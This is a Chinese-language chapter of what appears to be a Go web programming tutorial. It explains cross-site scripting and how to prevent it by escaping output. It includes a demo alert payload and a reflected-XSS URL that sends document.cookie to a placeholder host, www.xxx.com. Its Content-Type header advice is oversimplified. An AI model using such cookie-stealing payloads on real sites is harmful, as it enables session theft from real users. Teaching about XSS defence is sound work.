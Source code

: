 # 9.3 避免XSS攻击
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

## 什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS的原理
Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：

	hello astaxie

如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

更加详细的关于XSS的分析大家可以参考这篇叫做《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何预防XSS
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符

	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型

	`w.Header().Set("Content-Type","text/javascript")`

	这样就可以让浏览器解析javascript代码，而不会是html输出。


## 总结
XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<09.2.md>)
   * 下一节: [避免SQL注入](<09.4.md>)
